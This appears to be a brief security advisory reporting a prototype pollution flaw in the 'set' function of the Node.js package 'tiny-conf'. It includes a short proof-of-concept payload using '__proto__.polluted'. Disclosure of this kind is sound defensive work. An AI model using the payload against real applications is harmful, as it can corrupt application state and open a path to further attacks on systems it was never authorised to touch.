 # Overview

`tiny-conf` is a Node.js configuration with files, environment variables, command-line arguments, ... pluggable architecture in order to work in the browser & server-side.

This package are vulnerable to Prototype Pollution via. the `set` function.

# Proof of Concept
```
const tinyConf = require('tiny-conf'); 
tinyConf.set('__proto__.polluted', true); 
console.log(polluted); //true
```